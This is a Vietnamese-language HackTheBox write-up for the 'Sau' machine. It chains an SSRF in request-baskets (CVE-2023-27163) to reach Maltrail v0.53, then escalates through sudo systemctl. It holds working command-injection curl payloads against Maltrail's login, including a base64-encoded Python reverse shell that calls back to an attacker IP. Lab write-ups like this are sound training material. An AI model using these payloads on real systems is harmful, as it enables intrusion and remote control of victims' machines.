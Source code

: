```yaml
---
title: Sau HTB Writeup - Hackthebox
categories:
- CTF Writeup
- HackTheBox
tags:
- CVE-2023-27163
date: '2023-11-21 11:30:00'
published: true
---
```


```bash
nmap -p- -sCV -A 10.10.11.224 -oN Sau
```

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled.png)

Có 2 port đang mở

- 22/tcp ssh
- 55555/tcp

Và 2 port đang bị chặn: 80/tcp và 8338/tcp.

![http://10.10.11.224:55555](/assets/img/posts/Sau-HTB/Untitled%201.png)

http://10.10.11.224:55555

port 55555 đang chạy 1 dịch vụ web, cụ thể 1 trang Request Baskets để bắt các gói tin http. 

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled%202.png)

Trang này sử dụng request-baskets version 1.2.1. Search google phát hiện cho đến v1.2.1 thì có tồn tại lỗ hổng SSRF (**[CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3#file-cve-2023-27163))**

Ban đầu, nmap quét được 2 cổng 80 và 8338 đã bị chặn, khả năng đây là dịch vụ nội bộ nên tui sẽ post /api/baskets/ với payload sau:

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled%203.png)

Truy cập baskets với payload vừa tạo, sau đó nó sẽ forward tới port 80.

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled%204.png)

eoz xấu tệ hại, có lẽ js css linking bị lỗi. Không quan tâm lắm, thứ chúng ta cần quan tâm là cái mũi tên góc trái phía dưới kìa. Là **M**altrail (v**0.53**), có lỗ hổng cực kì nghiêm trọng, tại trang login có thể khai thác RCE thông qua param `username`

PoC: https://github.com/spookier/Maltrail-v0.53-Exploit

```bash
curl -X POST 'http://10.10.11.224:55555/lewlew/login' --data 'username=;`curl 10.10.14.42:4444 `'
```

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled%205.png)

Vậy là đã chứng minh được code của mình được inject và thực thi thành công. Tiếp theo, tạo payload reverse shell và inject.

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled%206.png)

```bash
curl -X POST 'http://10.10.11.224:55555/lewlew/login' --data 'username=;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuNDIiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=" | base64 -d | sh`'
```

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled%207.png)

## Leo Root

```bash
sudo -l
```

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled%208.png)

Chạy lệnh với sudo

```bash
sudo /usr/bin/systemctl status trail.service
```

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled%209.png)

output có vẻ giống với lệnh `less`

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled%2010.png)

![Sau-HTB](/assets/img/posts/Sau-HTB/Untitled%2011.png)